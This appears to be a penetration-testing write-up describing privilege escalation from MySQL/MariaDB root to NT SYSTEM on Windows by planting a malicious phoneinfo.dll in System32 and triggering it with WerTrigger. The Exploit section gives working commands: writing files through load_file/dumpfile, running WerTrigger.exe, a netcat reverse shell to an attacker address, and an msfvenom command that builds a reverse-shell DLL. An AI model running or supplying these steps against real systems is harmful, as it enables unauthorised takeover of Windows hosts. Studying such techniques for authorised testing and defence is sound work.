



# Overview

MySQL typically runs as a privileged user, such as the root account, making it a potential target for privilege escalation if not properly configured, such as having no password or a weak password for the root account. One method attackers can use to execute arbitrary commands as a privileged user is to exploit a malicious user-defined library. By uploading a malicious library to the plugin directory, attackers can define malicious functions and execute any command on the system with elevated privileges. Detailed information about this technique can be found [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql).

However, not every MySQL environment has an ideal plugin directory setting for such attacks, so alternative exploitation methods are required if we are to gain access to MySQL. Typically, logging in as a privileged user gives us read and write access to system files. We can abuse built-in functions such as `load_file` and `dump_file` to dump files into restricted directories, such as the system directory. This allows us to place a malicious DLL in the system folder and trigger it to escalate privileges and execute arbitrary commands as NT SYSTEM.

The `WerTrigger` technique involves placing a malicious phoneinfo.dll in the System32 folder and finding a way to trigger it without rebooting the system. According to [the WerTrigger repository](https://github.com/sailay1996/WerTrigger), this DLL is typically missing from the System32 folder, but is automatically loaded by Windows systems after a reboot if boot logging is enabled in Procmon. If we can bypass the reboot process and trick the system into loading a malicious phoneinfo.dll, we can gain a shell as the system user. Using Report.wer and WerTrigger.exe provided in the GitHub repository, we can trigger and execute arbitrary commands as SYSTEM. All of these actions can be performed using MySQL commands if we have privileged access. This allows us to escalate from the root user in MySQL to the SYSTEM user on the target machine.

# Exploit

We logged in as root and uploaded nc.exe to check if we have write permission. 

```jsx
ariaDB [mysql]> select load_file("C:\\\\test\\nc.exe") into dumpfile 'C:\\\\test\\ncat.exe';
```



Then upload phoneinfo.dll to System32.

```jsx
MariaDB [mysql]> select load_file('C:\\\\xampp\\htdocs\\phoneinfo.dll') into dumpfile "C:\\\\Windows\\System32\\phoneinfo.dll";\
```

In the same directory as Report.wer, We ran WerTrigger.exe(no output), then execute reverse shell payload. Now we are NT SYSTEM

```powershell
PS C:\test> .\WerTrigger.exe
C:\test\nc.exe 192.168.x.x 445 -e cmd
```





### Alternative:

We can also generate a reverse shell dll and name it as phoneinfo.dll. Then use WerTrigger.exe to trigger it.

```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x  LPORT=445 --platform windows --arch x64 -f dll -o phoneinfo.dll
```